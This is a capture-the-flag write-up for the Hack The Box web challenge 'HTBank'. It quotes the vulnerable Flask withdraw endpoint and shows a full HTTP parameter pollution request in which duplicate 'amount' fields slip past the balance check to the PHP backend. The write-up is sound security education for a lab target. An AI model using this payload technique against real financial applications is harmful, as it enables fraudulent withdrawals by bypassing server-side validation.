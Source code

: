 ```yaml
---
title: Hackthebox Challenge - HTBank
date: 2024-02-28
categories: [Writeups, Hackthebox Challenge]
tags: [CTF, Web, easy]
---
```


# HTBank - EASY

## Description

<Sup>Author: @DRAL3N & @Xclow3n</sup><br>
A notorious bank has recently opened its doors, claiming to house the wealth of the entire world. Can you reclaim what is rightfully yours? Here's a wizard's tip: the bank only permits withdrawals of 1337 units of currency at a time. Are you up for the challenge?

## Solution

![img-description](/assets/img/2024-02-28-HTBank/website.png)
**After start machine I see a website with a searching page.**

![img-login](/assets/img/2024-02-28-HTBank/website-login.png)

After register and login into the website, I see this website allowed me to withdraw money. But feature add money is not working.

So let's see the vuln of the website.

### Vulnerability

```python
@api.route('/withdraw', methods=['POST'])
@isAuthenticated
def withdraw(decoded_token):
    body = request.get_data()
    amount = request.form.get('amount', '')
    account = request.form.get('account', '')

    if not amount or not account:
        return response('All fields are required!'), 401

    user = getUser(decoded_token.get('username'))

    try:
        if (int(user[0].get('balance')) < int(amount) or int(amount) < 0 ):
            return response('Not enough credits!'), 400

        res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw",
            headers={"content-type": request.headers.get("content-type")}, data=body)

        jsonRes = res.json()

        return response(jsonRes['message'])
    except:
        return response('Only accept number!'), 500
```

That is only one endpoint that I can access.
After review this code, I see the `body` is not sanitized.
and send it into php backend.

That mean I can use `HPP` to attack this website. because first parameter will be on python frontend and second parameter will be on php backend.

> you can read more about HPP [here](https://www.imperva.com/learn/application-security/http-parameter-pollution/)

### HPP Exploit

```request
POST /api/withdraw HTTP/1.1
Host: HOST
...
<SNIP>
...

------WebKitFormBoundaryqVuNzBIyD00IBQBX
Content-Disposition: form-data; name="account"

0xffee4d0cb39a20c603861feb453c66fa
------WebKitFormBoundaryqVuNzBIyD00IBQBX
Content-Disposition: form-data; name="amount"

0
------WebKitFormBoundaryqVuNzBIyD00IBQBX
Content-Disposition: form-data; name="amount"

1337
------WebKitFormBoundaryqVuNzBIyD00IBQBX--
```

> Flag: REDACTED
